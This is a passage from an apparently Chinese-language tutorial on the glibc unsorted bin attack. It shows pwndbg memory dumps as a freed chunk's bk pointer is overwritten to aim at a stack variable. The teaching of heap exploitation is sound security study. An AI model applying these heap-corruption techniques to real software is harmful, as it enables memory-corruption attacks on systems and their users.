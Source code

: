 ```c
    												#unsortedbin
0x7ffff7dd1b90 <main_arena+112>:	0x0000000000602000	0x00007ffff7dd1b88
0x7ffff7dd1ba0 <main_arena+128>:	0x00007ffff7dd1b88	0x00007ffff7dd1b98
0x7ffff7dd1bb0 <main_arena+144>:	0x00007ffff7dd1b98	0x00007ffff7dd1ba8
0x7ffff7dd1bc0 <main_arena+160>:	0x00007ffff7dd1ba8	0x00007ffff7dd1bb8
0x7ffff7dd1bd0 <main_arena+176>:	0x00007ffff7dd1bb8	0x00007ffff7dd1bc8
0x7ffff7dd1be0 <main_arena+192>:	0x00007ffff7dd1bc8	0x00007ffff7dd1bd8
0x7ffff7dd1bf0 <main_arena+208>:	0x00007ffff7dd1bd8	0x00007ffff7dd1be8
0x7ffff7dd1c00 <main_arena+224>:	0x00007ffff7dd1be8	0x00007ffff7dd1bf8
pwndbg> 
```

在之前的文章中我们说过，当unsortedbin只有一个free_chunk时，它的fd和bk指针都指向unsortedbin本身。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1605518448778-38373f22-a306-4fe8-8c15-7a084e086147.png)

## 执行p[1]=(unsigned long)(&stack_var-2);
对代码第21行下断点，继续：p[1]=(unsigned long)(&stack_var-2);

```c
pwndbg> x/16gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000421
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdd68
    		#fd					#bk被更改
0x602020:	0x0000000000000000	0x0000000000000000
0x602030:	0x0000000000000000	0x0000000000000000
0x602040:	0x0000000000000000	0x0000000000000000
0x602050:	0x0000000000000000	0x0000000000000000
0x602060:	0x0000000000000000	0x0000000000000000
0x602070:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

现在我们已经更改了unsortedbin中malloc_chunk1指针为0x00007fffffffdd68。

```c
pwndbg> unsortedbin 
unsortedbin
all [corrupted]
FD: 0x602000 ◂— 0x0
BK: 0x602000 —▸ 0x7ffff7dd1b78 (main_arena+88) ◂— 0x602000
pwndbg> x/16gx 0x00007fffffffdd68
0x7fffffffdd68:	0x00000000004007a8	0x0000000000400870
    			#unsortedbin中bk指针所指向的地方
0x7fffffffdd78:	0x0000000000000000	0x0000000000602010
    			#想要被修改为超大值的地方
0x7fffffffdd88:	0xbfb16d8983641800	0x0000000000400870
0x7fffffffdd98:	0x00007ffff7a2d840	0x0000000000000001
0x7fffffffdda8:	0x00007fffffffde78	0x00000001f7ffcca0
0x7fffffffddb8:	0x00000000004006a6	0x0000000000000000
0x7fffffffddc8:	0x9c796560ff5ea285	0x00000000004005b0
0x7fffffffddd8:	0x00007fffffffde70	0x0000000000000000
pwndbg> 
```
